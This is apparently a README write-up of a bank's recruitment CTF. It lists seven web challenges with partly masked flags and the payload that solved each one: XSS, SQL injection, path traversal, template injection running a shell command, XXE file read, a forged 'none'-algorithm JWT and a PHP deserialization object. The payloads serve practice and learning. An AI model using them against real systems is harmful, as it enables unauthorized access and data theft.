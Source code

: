 # Description

[CTF_{BGK}](https://securitum.page/) was the chellenge for the people which are interested in working for BGK Bank. I did it just for improving myself and practice security skills.


# Challenges

* [Xcross-this](http://139.177.183.71:3000/?LogOut=1) - XSS - <code v-if="false">`CTF_{Str0ngInMathzYouAre}`</code><code v-else>`CTF_{Str0ngInMa************Are}`</code>
    ```
    \unicode{<img src=1 onerror='document.getElementById("LogOut").click()'>}
    ```
* [Database](http://139.177.183.71:4000/) - SQLi - <code v-if="false">`CTF_{0w0cow3Czwartki}`</code><code v-else>`CTF_{0w0cow3C********}`</code>
    ```
    ?query=1%27%29+union+SELECT+title%2C+text%2C+hidden%2C+image+FROM+offers+--
    ```
* [deardir](http://139.177.183.71:7000/) - LFI - <code v-if="false">`CTF_{ThisIsThePath}`</code><code v-else>`CTF_{ThisIsT******}`</code>
    ```
    ?file=../../../tmp/flag
    ```

* [Welcome, I, you](http://139.177.183.71:10000/) - SSTI - <code v-if="false">`CTF_{OhGo0dYouAre}`</code><code v-else>`CTF_{OhGo0d******}`</code>
    ```python
    /greeting/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()%7D%7D
    ```

* [External Entity](http://139.177.183.71:5000/) - XXE - <code v-if="false">`CTF_{ExternalButEazy}`</code><code v-else>`CTF_{Externa********}`</code>
    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE x [
    <!ENTITY x SYSTEM "/tmp/flag">
    ]>
    <creds>
        <user>admin &x;</user>
        <pass>admin</pass>
    </creds>
    ```

* [I'm brOken'](http://139.177.183.71:9000/app.js) - JWT with nOnE alg - <code v-if="false">`CTF_{QnIwa2VuQXV0aFRva2Vu==}`</code><code v-else>`CTF_{QnIwa2V************==}`</code>, (just modify `alg = nOnE` and `username = admin`)
    ```
    eyJhbGciOiJuT25FIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzEwNTg3MTE1fQ.D978VBZPH0Z4qxHIgRkdt-4xtaxPdAAEHs3UpFJ9hX8
    ```

* [Why s0 deserious?](http://139.177.183.71:11000/) - <code v-if="false">`CTF_{0hYouSerializ3dit}`</code><code v-else>`CTF_{0hYouSe**********}`</code>
    ```
    ?data=O%3A8%3A%22FileRead%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A17%3A%22%2Fvar%2Fwww%2Fflag.txt%22%3B%7D
    ```
